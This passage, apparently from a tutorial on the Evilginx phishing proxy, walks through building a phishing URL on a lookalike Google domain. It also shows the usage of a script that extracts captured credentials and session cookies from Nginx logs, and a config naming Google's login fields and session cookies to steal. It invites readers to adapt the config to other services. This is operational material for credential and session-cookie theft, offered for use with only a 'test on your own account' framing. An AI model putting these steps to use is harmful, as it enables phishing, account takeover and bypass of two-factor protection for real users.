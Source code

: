 <p nodeIndex="107">In order to create your phishing URL, you need to supply two parameters:</p>
<ol nodeIndex="109"><li nodeIndex="108"><strong nodeIndex="299">rc =</strong> On successful sign-in, victim will be redirected to this link e.g. document hosted on Google Drive.</li>
<li nodeIndex="110"><strong nodeIndex="300">rt =</strong> This is the name of the session cookie which is set in the browser <strong nodeIndex="301">only</strong> after successful sign-in. If this cookie is detected, this will be an indication for Evilginx that sign-in was successful and the victim can be redirected to URL supplied by <strong nodeIndex="302">rc</strong> parameter.</li>
</ol><p nodeIndex="111">Let's say we want to redirect the phished victim to rick'roll video on Youtube and we know for sure that Google's session cookie name is <code nodeIndex="303">LSID</code>. The URL should look like this:</p>
<pre nodeIndex="112">
<code class="language-language" nodeIndex="304">https://accounts.notreallygoogle.com/ServiceLogin?rc=https://www.youtube.com/watch?v=dQw4w9WgXcQ&rt=LSID  
</code>
</pre>
<p nodeIndex="113">Try it out and see if it works for your own account.</p>
<h6 id="capturingcredentialsandsessioncookies" nodeIndex="305">Capturing credentials and session cookies</h6>
<p nodeIndex="114">Nginx's site configuration is set up to output data into <code nodeIndex="306">/var/log/evilginx-google.log</code> file. This file will store all relevant parts of requests and responses that pass through Nginx's proxy. Log contents are hard to analyze, but we can automate its parsing.</p>
<p nodeIndex="115">I wrote a small Python script, called <code nodeIndex="307">evilginx_parser.py</code>, which will parse Nginx's log files and extract only credentials and session cookies from them. Those will be saved in separate files in directories named after extracted accounts' usernames.</p>
<p nodeIndex="116">I assume, you've now tested your <strong nodeIndex="308">Evilginx</strong> setup with phishing for your own account's session. Let's try to extract your captured data. Here is the script's usage page:</p>
<pre nodeIndex="117">
<code class="language-bash" nodeIndex="309"># ./evilginx_parser.py -h
usage: evilginx_parser.py [-h] -i INPUT -o OUTDIR -c CREDS [-x]

optional arguments:  
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input log file to parse.
  -o OUTDIR, --outdir OUTDIR
                        Directory where output files will be saved.
  -c CREDS, --creds CREDS
                        Credentials configuration file.
  -x, --truncate        Truncate log file after parsing.
</code>
</pre>
<p nodeIndex="118">All arguments should be self-explainatory apart maybe from <code nodeIndex="310">--creds</code> and <code nodeIndex="311">--truncate</code>. Argument <code nodeIndex="312">--creds</code> specifies the input config file, which provides info for the script, what kind of data we want to extract from the log file.</p>
<p nodeIndex="119">Creds config file <code nodeIndex="313">google.creds</code>, made for Google, looks like this:</p>
<pre nodeIndex="120">
<code class="language-language" nodeIndex="314">[creds]
email_arg=Email  
passwd_arg=Passwd  
tokens=[{"domain":".google.com","cookies":["SID", "HSID", "SSID", "APISID", "SAPISID", "NID"]},{"domain":"accounts.google.com","cookies":["GAPS", "LSID"]}]  
</code>
</pre>
<p nodeIndex="121">Creds file provides information on sign-in form username and password parameter names. It also specifies a list of cookie names that manage user's session, with assigned domain names. These will be intercepted and captured.</p>
<p nodeIndex="122">It is very easy to create your own .creds config files if you decide to implement phishing of other services for <strong nodeIndex="315">Evilginx</strong>.</p>